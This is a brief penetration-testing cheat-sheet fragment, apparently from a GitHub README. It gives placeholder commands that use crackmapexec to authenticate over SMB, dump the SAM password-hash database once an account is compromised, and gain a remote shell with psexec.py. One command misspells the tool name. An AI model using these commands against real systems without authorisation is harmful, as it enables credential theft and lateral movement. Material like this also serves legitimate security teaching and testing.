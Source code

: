 
### Usage
```sh
crackmapexec smb <ip_address> -u <user_name> -d <domain_name> -p <password>
```

Once we pwn an account we can be able to dump the SAM to an external file as shown below
```sh
crackmapexcec smb <ip_address> -u <user_name> -d <domain_name> -p <password> --sam
```


We can then login using psexec as shown below

```sh
psexec.py <domain_name>/<user_name>:<password>@<ip_address>
```
